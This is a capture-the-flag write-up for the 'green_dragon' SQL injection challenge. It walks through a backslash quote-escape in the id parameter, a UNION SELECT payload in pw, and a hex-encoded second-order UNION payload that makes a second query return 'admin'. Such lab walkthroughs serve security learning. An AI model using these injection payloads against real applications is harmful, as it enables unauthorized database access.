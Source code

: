 ```yaml
---
custom_edit_url: null
sidebar_position: 25
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a2a4e0ba-a94a-47b7-87fd-6b701374d2b8)

We are provided with two SQL queries:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

```sql
SELECT id FROM prob_green_dragon WHERE id='{$result[id]}' AND pw='{$result[pw]}'
```

We cannot use single or double quotes in this challenge. Therefore, we need to find another way to modify the existing query.

Let's provide the following URI:

```
?id=\
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw='{$_GET[pw]}'
```

As we can see, now the `\' AND pw=` part is being treated as a string. This is because the `\` character escapes the following character which was the closing single quote.

Anything we insert into the `?pw` parameter will thus be treated as code.

If we provide the following URI parameter:

```
?id=\&pw=UNION SELECT 1, 2 -- -

## id=\
## pw=UNION SELECT 1, 2 -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw=' UNION SELECT 1, 2 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/67f050bb-24ab-453d-9d4c-482e23491d03)

Interestingly, we can see that the values in the `?pw` parameter (`1,2`) have been inserted in the second query.

```sql
SELECT id FROM prob_green_dragon WHERE id='1' AND pw='2'
```

Using the same technique, in order to convert part of the second query into a string.

We can provide the following URI:

```
?id=\&pw=UNION SELECT 0x5C, 0x554e494f4e2053454c45435420307836313634366436393665202d2d202d -- -

## ?id=\
## ?pw=UNION SELECT 0x5C, 0x554e494f4e2053454c45435420307836313634366436393665202d2d202d -- -
```

`0x554e494f4e2053454c45435420307836313634366436393665202d2d202d` is the Hexadecimal representation of `UNION SELECT 0x61646d696e -- -` and `0x5C` id Hexademical for `\`.

The resultant first query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw=' UNION SELECT \, UNION SELECT 0x61646d696e -- - -- -'
```

The resultant second query becomes:

```sql
SELECT id FROM prob_green_dragon WHERE id='1' AND pw='2' UNION SELECT 0x61646d696e -- -
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/b3e82b2e-fb6d-4d6e-a363-e5b7526dcaf3)

